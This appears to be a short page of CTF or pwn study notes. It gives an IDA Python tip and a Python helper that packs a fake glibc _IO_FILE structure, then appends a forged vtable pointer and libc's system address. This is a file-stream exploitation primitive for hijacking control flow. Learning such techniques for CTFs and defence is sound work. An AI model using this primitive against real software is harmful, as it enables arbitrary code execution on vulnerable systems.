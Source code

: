 > ida python 

```
ifind('call') : 호출되는 함수볼 수 있음
```

<br />

> File Struct

```python
def pack_file(_flags = 0,
		_IO_read_ptr = 0,
		_IO_read_end = 0,
		_IO_read_base = 0,
		_IO_write_base = 0,
		_IO_write_ptr = 0,
		_IO_write_end = 0,
		_IO_buf_base = 0,
		_IO_buf_end = 0,
		_IO_save_base = 0,
		_IO_backup_base = 0,
		_IO_save_end = 0,
		_IO_marker = 0,
		_IO_chain = 0,
		_fileno = 0,
		_lock = 0):
	struct = p32(_flags) + \
	     p32(0) + \
	     p64(_IO_read_ptr) + \
	     p64(_IO_read_end) + \
	     p64(_IO_read_base) + \
	     p64(_IO_write_base) + \
	     p64(_IO_write_ptr) + \
	     p64(_IO_write_end) + \
	     p64(_IO_buf_base) + \
	     p64(_IO_buf_end) + \
	     p64(_IO_save_base) + \
	     p64(_IO_backup_base) + \
	     p64(_IO_save_end) + \
	     p64(_IO_marker) + \
	     p64(_IO_chain) + \
	     p32(_fileno)
	struct = struct.ljust(0x88, '\0')
	struct += p64(_lock)
	struct = struct.ljust(0xd8, '\0')
	return struct

pack_file() + p64(vtable) + libc.symbols['system']
```

<br />

# Web Tips
